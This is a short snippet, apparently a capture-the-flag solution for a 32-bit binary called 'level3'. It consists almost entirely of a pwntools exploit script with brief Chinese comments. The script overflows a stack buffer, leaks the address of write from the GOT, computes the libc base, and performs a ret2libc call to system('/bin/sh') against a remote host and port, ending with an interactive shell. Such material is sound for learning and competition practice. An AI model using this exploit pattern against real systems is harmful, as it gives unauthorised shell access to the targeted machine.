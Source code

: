 ### Exp

```python
#coding=utf-8
from pwn import *
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
main_addr = elf.sym["main"]
write_libc = libc.sym["write"]
system_libc = libc.sym["system"]


payload1 = 'a'*(0x88+0x4)+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4) #构造write栈帧泄露write_got地址 并重新回到main函数

io=remote("111.198.29.45","42198")
io.sendlineafter("Input:\n",payload1)
write_addr=u32(io.recv(4))

libc_base_addr = write_addr - write_libc #计算偏移量 得到基地址
system_addr = libc_base_addr + system_libc
shell_addr = libc_base_addr  + next(libc.search("/bin/sh"))

payload2 = 'a'*(0x88+0x4) +p32(system_addr) + 'a'*4 + p32(shell_addr)

io.sendlineafter("Input:\n",payload2)
io.interactive()
```